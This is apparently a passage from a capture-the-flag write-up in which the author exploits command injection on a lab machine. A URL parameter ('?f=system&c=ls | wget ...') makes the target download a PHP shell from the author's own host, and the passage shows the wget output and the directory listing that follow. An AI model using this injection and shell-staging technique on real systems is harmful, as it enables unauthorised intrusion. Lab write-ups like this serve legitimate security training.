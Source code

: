 ``` 
wget -r 192.168.145.133
--2018-10-27 10:03:58--  http://192.168.145.133/
Connecting to 192.168.145.133:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 216 [text/html]
Saving to: ‘192.168.145.133/index.html’

192.168.145.133/index.html            100%[======================================================================>]     216  --.-KB/s    in 0s      

2018-10-27 10:03:58 (11.8 MB/s) - ‘192.168.145.133/index.html’ saved [216/216]

Loading robots.txt; please ignore errors.
--2018-10-27 10:03:58--  http://192.168.145.133/robots.txt
Connecting to 192.168.145.133:80... connected.
HTTP request sent, awaiting response... 404 File not found
2018-10-27 10:03:58 ERROR 404: File not found.

--2018-10-27 10:03:58--  http://192.168.145.133/shell.php
Connecting to 192.168.145.133:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5497 (5.4K) [application/octet-stream]
Saving to: ‘192.168.145.133/shell.php’

192.168.145.133/shell.php             100%[======================================================================>]   5.37K  --.-KB/s    in 0s      

2018-10-27 10:03:58 (638 MB/s) - ‘192.168.145.133/shell.php’ saved [5497/5497]

FINISHED --2018-10-27 10:03:58--
Total wall clock time: 0.01s
Downloaded: 2 files, 5.6K in 0s (212 MB/s)
```

I made the change and dumped the variable as it looks now:

``` 
sudo -u 64base wget -r 192.168.145.138
```

Things are looking good. But when I ran it, still nothing happened, and there was no GET request downloading the shell on my Python server. After more time spent dumping variations of the command, the one that finally worked was <code>?f=system&c=ls | wget -r 192.168.145.133</code>

Now my server received a request, and when I listed the current directory:

``` 
total 48K
drwxr-xr-x 6 www-data www-data 4.0K Oct 27 18:12 .
drwxr-xr-x 3 www-data www-data 4.0K Dec  6  2016 ..
drwxr-xr-x 2 www-data www-data 4.0K Oct 27 18:12 192.168.145.133
-rwxr-x--- 1 www-data www-data 2.1K Dec  5  2016 cat
drwxr-xr-x 2 www-data www-data 4.0K Dec  5  2016 css
-rwxr-x--- 1 www-data www-data  757 Dec  6  2016 index.html
-rwxr-x--- 1 www-data www-data  705 Dec  5  2016 index.jade
-rwxr-x--- 1 www-data www-data  959 Dec  6  2016 index.php
drwxr-xr-x 2 www-data www-data 4.0K Dec  5  2016 js
-rwxr-x--- 1 www-data www-data 1.1K Dec  5  2016 license.txt
-rwxr-x--- 1 www-data www-data  835 Dec  6  2016 login.php
drwxr-xr-x 2 www-data www-data 4.0K Dec  5  2016 scss
```

